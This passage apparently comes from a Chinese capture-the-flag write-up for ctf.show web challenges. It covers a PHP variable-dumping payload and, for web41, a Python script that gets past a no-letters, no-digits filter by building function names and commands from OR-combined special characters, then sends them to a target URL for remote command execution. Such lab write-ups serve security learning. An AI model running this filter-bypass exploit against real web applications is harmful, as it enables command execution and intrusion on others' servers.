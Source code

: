```
?变量名=print_r(array_pop(next(get_defined_vars())));    #弹出
```

## web41

![image-20230528115447524](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528115447524.png)

![image-20230528115542544](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528115542544.png)

不允许数字，也不允许有字母。不能有大小写字母。关键字符也不能有。

通过一些特殊字符来构造出一个字母。这里使用到官方提示的一个脚本文件。[羽师傅博客](https://blog.csdn.net/miuzzx/article/details/108569080)

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230531163746939.png" alt="image-20230531163746939" style="zoom:50%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230531163852967.png" alt="image-20230531163852967" style="zoom:50%;" />

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)
```
